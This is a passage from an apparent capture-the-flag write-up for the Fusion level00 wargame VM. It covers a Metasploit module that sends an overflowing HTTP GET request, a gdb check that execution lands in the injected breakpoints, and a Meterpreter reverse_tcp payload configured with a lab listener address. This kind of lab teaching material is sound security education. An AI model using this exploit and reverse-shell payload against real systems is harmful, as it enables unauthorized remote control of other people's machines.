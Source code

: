   # For now make the payload breakpoints
  sploit = "GET #{filename} HTTP/1.1\r\n" + "\xCC"*1000

  # Send the payload
  sock.put(sploit)

  disconnect
end
{% endhighlight %}

Attach gdb to the process again. Reload the module and send the exploit

{% highlight bash %}
Program received signal SIGTRAP, Trace/breakpoint trap.
[Switching to process 10329]
0xbffff9e0 in ?? ()
(gdb) x/5i $eip
=> 0xbffff9e0:  int3   
   0xbffff9e1:  int3   
   0xbffff9e2:  int3   
   0xbffff9e3:  int3   
   0xbffff9e4:  int3
(gdb)
{% endhighlight %}

Confirmed eip is executing the payloadi of breakpoints. The last step is changing the payload to a metsploit payload rather than breakpoints.

{% highlight Ruby %}
...
sploit = "GET #{filename} HTTP/1.1\r\n" + payload.encoded
...
{% endhighlight %}


{% highlight bash %}
msf exploit(level00) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(level00) > show options

Module options (exploit/fusion/level00):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.79.132   yes       The target address
   RPORT  20000            yes       The target port


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LHOST                          yes       The listen address
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf exploit(level00) > set LHOST 192.168.79.129
LHOST => 192.168.79.129
msf exploit(level00) > exploit

[*] Started reverse handler on 192.168.79.129:4444